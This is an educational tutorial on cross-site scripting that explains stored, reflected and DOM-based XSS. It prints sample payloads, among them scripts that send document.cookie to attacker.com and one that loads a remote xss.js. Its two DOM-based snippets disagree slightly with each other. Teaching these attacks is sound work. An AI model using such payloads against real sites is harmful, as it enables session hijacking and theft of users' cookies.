 # Cross-Site Scripting \(XSS\)

Web applications usually respond to HTTP requests from a user's browser or other application. The server application will send a mixture of HTML, CSS and JavaScript that will be rendered and executed by the client. The browser will take the HTML and create a document object model \(DOM\) of the page using the CSS to style and format the HTML. Finally, JavaScript may be executed, and this could dynamically change the DOM and styling. Using JavaScript in this way helps to make the page responsive and avoiding round trips on the network back to the server. All of this makes the code that executes on the client vulnerable to attack in a number of different points in this process.

Cross-site scripting is another example of allowing unchecked and unsanitized input. In this case, the input is of HTML and JavaScript. If the JavaScript is executed by a target's browser, there is the potential to do a number of malicious things including:

* JavaScript to steal cookies that may contain session tokens that can be used for impersonation of a user.
* Use HTML5 to gain access to microphones, cameras and other devices on the computer
* Keylogging by registering event listeners
* Make other HTTP requests to carry out Server-Side Request Forgery \(SSRF\) attacks
* Change the appearance of the page to abuse the target

XSS relies on the targeted user to interact with URLs and to potentially allow access when requested, so it relies heavily on social engineering techniques to trick a user into doing things on the attacker's behalf. In this respect though, it is not that dissimilar to phishing attacks generally.

There are three main types of XSS. The first two differ in whether they are persistent or not.

## Stored XSS

Stored XSS is where an attacker injects malicious content that is stored by the application and then served up to other victims who visit the site. An example of this is would be injecting script into the input of a comment feature on a site which then gets displayed to other users. The script can be crafted to steal cookies by using the code:

```javascript
<script>window.location="http://attacker.com/?cookie=" + document.cookie</script>
```

Javascript can be incorporated into other HTML elements such as

```javascript
<img src="javascript:alert('XSS');">
```

More sophisticated scripts can be included from external sources:

```javascript
<script src=http://attacker.com/xss.js></script>
```

## Reflected XSS

This is a non-persistent XSS attack where the target is tricked into clicking a link to a site that incorporates the malicious script. An example of this would be tricking a target to click on a search link:

```markup
<a href=http://search.com/search?keyword=<script>window.location='http://attacker.com/?cookie=' + document.cookie</script>;>Click Here</a>
```

The script would be executed when the search function prints the results:

```text
You searched for: <script>window.location='http://attacker.com/?cookie=' + document.cookie</script>
Results: …
```

Again the user needs to be tricked into clicking a link and ideally not noticing the results of that click.

## DOM-based XSS

In DOM-based XSS, the attacker uses the existing scripts on a page to write malicious code to the page itself where it is then executed. All of this can happen on the client when the page's javaScript is executed bypassing any filtering or protection on the server itself.

Taking the requested URL from the previous example

```bash
http://search.com/search?keyword=javascript:alert("DOM XSS on: " + document.domain)
```

The following HTML would be vulnerable:

```markup
<html>
Your search: <em></em>
<script>
  var keyword = location.search.substring(9);
  document.querySelector('em').innerHTML = keyword;
  window.location=document.querySelector('em').innerHTML
</script>
</html>
```

This would then result in the malicious script being included in the page:

```markup
<html>
Your search: <em>javascript:alert("DOM XSS on: " + document.domain)</em>
<script>
  var keyword = location.search.substring(6);
  document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

This would result in an alert being popped up.

